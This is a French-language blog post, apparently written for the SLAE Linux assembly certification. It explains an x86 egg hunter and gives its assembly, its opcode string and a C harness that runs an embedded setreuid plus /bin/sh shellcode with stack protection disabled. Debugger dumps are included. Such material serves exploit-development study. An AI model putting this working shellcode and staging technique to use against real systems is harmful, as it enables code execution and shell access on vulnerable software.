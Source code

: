 # Assignment 3 #

Il s'agit dans ce troisième exercice de coder un "Egg Hunter shellcode". Il s'agit d'un technique permettant de palier au manque de mémoire necessaire à l'ajout du shellcode en mémoire. Le programme va chercher en mémoire une séquence lui indiquant qu'il se trouve au début du shellcode. Cette séquence doit être une suite d'opcodes qui ont peu de chance d'être contigues afin de pouvoir le retrouver facilement. Etant sur une architecture 32 bits nous allons utiliser une clé (Egg Key) de 4 octets.

Source :  
[https://www.exploit-db.com/docs/english/18482-egg-hunter---a-twist-in-buffer-overflow.pdf](https://www.exploit-db.com/docs/english/18482-egg-hunter---a-twist-in-buffer-overflow.pdf)
[http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf)

Afin d'améliorer les chances de le trouver, il peut être conseillé de multiplier sa taille par deux.

## Définition de la clé ##

Nous allons pour cela utiliser la clé "b33fb33f". Ce choix est arbitraire, c'est un pattern facilement identifiable et qui a très peu de chance d'exister hors de ce contexte.

Le programme Egg hunter va parcourir la mémoire à la recherche de la clé précédement définie. Lors qu'il va essayer d'accéder à une zone mémoire non mappée cela va causer une erreur syst§me (SIGSEV). Il est donc necessaire de connaître une adresse accessible dans le même segment pour le shellcode et la clé.

L'idée est présentée via le descirptif ci-dessous.

```c
[egg hunter][random memory][egg][shellcode]
````

Nous allons pour cela créer un EggHunter qui aura pour fonction de chercher dans la mémoire la clé. Il faut pour cela s'assurer d'être dans le bon segment.

```c
; Egg Hunter Linux x86 shellcode
; Author: Alain Menelet
; Tested on ubuntu 16.04.3 LTS
; Egg Hunter stack memory


global _start

section .text

_start:
	jmp short valid

validAddress:
	
	pop eax			    ; eax contains a valid address
	mov ebx, 0x3fb33fb3	    ; egg key

_:
	inc eax			    ; increase memory
	cmp dword [eax], ebx        ; compare with the key
	jne _                       ; loop if dfferent
	jmp eax                     ; if equal jump to shellcode



valid:
	call validAddress

```

Nous compilons le tout :

```c
"\xeb\x0d\x58\xbb\xb3\x3f\xb3\x3f\x40\x39\x18\x75\xfb\xff\xe0\xe8\xee\xff\xff\xff";
```

Une fois cela fait nous allons modifier le programme C afin qu'il prenne en compte le shellcode, l'Egg key et l'Egg hunter.

Nous prenons le shellcode utilisé dans l'exercice 6. Il exécute un setreuid + /bin/sh.

```c

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

unsigned char egg[] = \
"\xeb\x0d\x58\xbb\xb3\x3f\xb3\x3f\x40\x39\x18\x75\xfb\xff\xe0\xe8\xee\xff\xff\xff";

unsigned char shellcode[] = \
"\xb3\x3f\xb3\x3f" // EggKey
"\x31\xc9\xf7\xe1\x89\xcb\x99\xb0\xa4\xcd\x80\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

int main()
{

	printf("Taille de l'Egg Hhunter %d\nAdresse du Shellcode:%p\n", strlen(egg), shellcode);
	int (*ret)() = (int(*)())egg;
	ret();

return 0;
}

La compilation se fait de la même manière :

gcc -fno-stack-protector -z execstack test_egg.c -o test_egg
```

Nous testons le tout :

```c
phidia@xophidia-VirtualBox:~/Documents/Shellcode/as3$ ./eggHunter_test
Taille de l'Egg Hhunter 20
Adresse du Shellcode: 0x804a060
$ 
```

### Détails : ###

L'egg Hunter fonctionne comme suit :
Nous voyons l'adresse obtenue lors du pop eax. Elle est valide et servira de point de départ à la recherche.

Une fois la clé trouvée, nous effectuons un saut à cette adresse soit le début du shellcode.

```c
EAX: 0x8048074 --> 0x0           ; valid address from jump pop call technique
EBX: 0x3fb33fb3                  ; Egg key
ECX: 0x0 
EDX: 0x0 
ESI: 0x0 
EDI: 0x0 
EBP: 0x0 
ESP: 0xbffff200 --> 0x1 
EIP: 0x8048068 (<_>:	inc    eax) ; loop while the key is not found

[-------------------------------------code-------------------------------------]
   0x804805f:	add    bl,ch
   0x8048061 <_start+1>:	or     eax,0x3fb3bb58
   0x8048066 <validAddress+4>:	mov    bl,0x3f
=> 0x8048068 <_>:	inc    eax
   0x8048069 <_+1>:	cmp    DWORD PTR [eax],ebx
   0x804806b <_+3>:	jne    0x8048068 <_>
   0x804806d <_+5>:	jmp    eax
   0x804806f <valid>:	call   0x8048062 <validAddress>


Nous observons dans la pile la clé dans egg ainsi qu'au début du shellcode.

gdb-peda$ x/20x 0x804a040
0x804a040 <egg>:	0xbb580deb	0x3fb33fb3	0x75183940	0xe8e0fffb
0x804a050 <egg+16>:	0xffffffee	0x00000000	0x00000000	0x00000000
0x804a060 <shellcode>:	0x3fb33fb3	0xe1f7c931	0xb099cb89	0xf780cda4
0x804a070 <shellcode+16>:	0x2f6851e1	0x6868732f	0x6e69622f	0x8951e389
0x804a080 <shellcode+32>:	0xe18953e2	0x80cd0bb0	0x00000000	0x00000000
```


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:
[http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

StudentID - SLAE-3763